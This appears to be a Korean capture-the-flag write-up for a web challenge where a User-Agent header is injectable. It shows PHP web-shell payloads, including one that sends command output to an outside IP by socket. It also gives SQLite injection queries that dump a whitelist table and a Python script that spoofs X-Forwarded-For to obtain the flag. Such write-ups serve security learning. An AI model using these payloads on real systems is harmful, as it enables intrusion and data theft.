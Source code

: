 
# 키워드
- sqli

# 풀이과정
- user-agent를 변조하는 문제
- 초기에는 헤더를 변조해 log poisoning하는 문제인 줄 알았으나 유효하지 않았음

```

GET /index.html HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; 
             Trident/5.0; <?php system($_GET['cmd']); ?>)


GET /index.html HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; 
             Trident/5.0; <?php
    $output = shell_exec('ls');
    $sock = fsockopen('211.250.216.249', 7000);
    fwrite($sock, $output);
    fclose($sock);
?>

```

- 특수문자 넣다보니 sqli인걸 알게 됨
- `User-Agent: admin" or "1"="1` 를 통해 서버에 접속을 할 수 있었으나, ip가 올바르지 않다고 reject당함
- sqli를 통해 db 정보를 유출해야 함
- 구글링을 통해 DBMS 특정할 수 있는 다양한 쿼리를 사용하여 sqlite임을 알아냈고 이를 이용하여
- 시스템 테이블 탐색 시작 응답 패킷을 통해 하나의 정보를 유출시킬 수 있는데 아래 쿼리들을 통해 하나씩 정보를 얻어내whitelist ip를 얻어냄

```sql
admin" OR "1"="1" AND sqlite_version() LIKE "3%"; --
admin" union select tbl_name from sqlite_master; --
admin" union select tbl_name from sqlite_master limit 1 offset 2; --	->white_list
admin" UNION SELECT sql FROM sqlite_master WHERE type="table" AND name="white_list"; --
CREATE TABLE white_list (
	no INTEGER NOT NULL,
	ip TEXT NOT NULL UNIQUE,
	PRIMARY KEY (no)
)"}

admin" UNION SELECT ip from white_list; --	->19.98.12.18
```

- 이를 X-Forwarded-For 필드에 넣어 플래그를 얻을 수 있음
- X-Forwarded-For 필드는 요청 ip가 어딘지를 식별하는 가장 표준적인 헤더임 
```python
# import requests

# url = "http://kknock.org:10002/api/bot_check"

# #and ascii(substring((select schema_name from information_schema.schemata limit 1), 1, 1))<79;

# headers = {
#     "User-Agent": 'admin" UNION SELECT ip from white_list limit 1 offset 1; --',
#     "Accept": "*/*",
#     "Referer": "http://kknock.org:10002/login",
#     "Accept-Language": "ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7",
# }

# response = requests.get(url, headers=headers)

# print(response.text)

import requests

url = 'http://kknock.org:10002/login'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'a" union select "19.98.12.18";-- -',
    'Referer': 'http://kknock.org:10002/login',
    'Cookie': 'session=.eJxNy0sKgCAURuGtXP6xCjZS24ogFpcQ6go-RtHea9j0fJwbWx1J8sUIsN54Z-xirINC6ekzhNEmK8zOLeWD5SvIETSlVKHOJ--D4v-NWLUmjecFL4YbLQ.ZYZPhA.5xcfW1ZmBWteeW6chi7sbA9NQgw',
    'Host' : "19.98.12.18",
    'X-Forwarded-For' : "19.98.12.18"
}
data = {
    'password': 'djenadls~?'
}
proxies = {
    'http': 'http://19.98.12.18:80',
    'https': 'http://19.98.12.18:443'
}

response = requests.post(url, headers=headers, data=data)
print(response.text)

#KCTF{X_F0Rw4RD3D_4_and_s1Mp1e_5qli}
```

# flag
![[Pasted image 20231230043821.png]]

